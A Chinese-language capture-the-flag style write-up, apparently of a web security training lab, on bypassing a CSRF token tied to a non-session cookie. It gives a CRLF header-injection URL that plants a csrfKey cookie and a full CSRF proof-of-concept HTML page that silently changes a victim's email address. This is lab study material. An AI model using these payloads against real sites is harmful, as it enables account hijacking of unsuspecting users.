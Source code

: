 
---


> 
<h3>实验5：令牌绑定到非会话cookie的CSRF</h3>
信息：
1、本实验的电子邮件更改功能易受CSRF攻击。使用令牌来尝试防止CSRF攻击，但没有完全集成到站点的会话处理系统中。
2、解决实验：使用漏洞攻击服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址
3、已有账号：
wiener:peter
carlos:montoya
<hr/>
part1:
登录帐户，提交"更新电子邮件"表单，并在HTTP代理历史记录中查找生成的请求


将请求发送到Burp Repeater，并观察更改会话cookie会将您注销，但更改csrfKey cookie只会导致CSRF令牌被拒绝。这表明csrfKey Cookie可能没有严格绑定到会话



打开一个隐私/匿名浏览器窗口，登录到另一个帐户，并发送一个新的更新电子邮件请求到BP
如果将csrfKey cookie和csrf参数从第一个帐户交换到第二个帐户，则请求将被接受<br/> 关闭BP和隐私浏览器
<hr/>
part2:
回到原来的浏览器，执行搜索，将结果请求发送到Burp Repeater，观察搜索词是否反映在Set-Cookie头中。由于搜索功能没有CSRF保护，可以使用它将cookie注入受害用户的浏览器。


创建一个利用此漏洞将csrfKey Cookie注入受害者浏览器的URL：
<pre><code>/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None


我的是：
/?search=test%0d%0aSet-Cookie:%20csrfKey=3KgZOqo3BJRX4HkGlmX9ESGModd3Ch5J%3b%20SameSite=None</code></pre>
将原有的csrfKey置空后，通过在search中set-cookie


创建并托管概念利用验证，确保包含CSRF令牌。应通过电子邮件更改请求创建利用漏洞攻击
替换为以下代码来注入Cookie（需要csrfKey）
<pre><code>&lt;img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()"&gt;


我的是：
&lt;img src="https://0a81005e04e2ac60c05b4019007800a9.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=rFry4XfZMtkztI9YU4EERewPSwACRrLT%3b%20SameSite=None" onerror="document.forms[0].submit()"&gt;</code></pre>

<hr/>
part3:
生成插入的poc


此时的HTML还需要修改
将script标签中的内容换为上面的
<pre>`&lt;img src="https://0a81005e04e2ac60c05b4019007800a9.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=3KgZOqo3BJRX4HkGlmX9ESGModd3Ch5J%3b%20SameSite=None" onerror="document.forms[0].submit()"&gt;`</pre>
<pre><code>&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://0a81005e04e2ac60c05b4019007800a9.web-security-academy.net/my-account/change-email" method="POST"&gt;
      &lt;input type="hidden" name="email" value="333333&amp;#64;qq&amp;#46;com" /&gt;
      &lt;input type="hidden" name="csrf" value="rFry4XfZMtkztI9YU4EERewPSwACRrLT" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;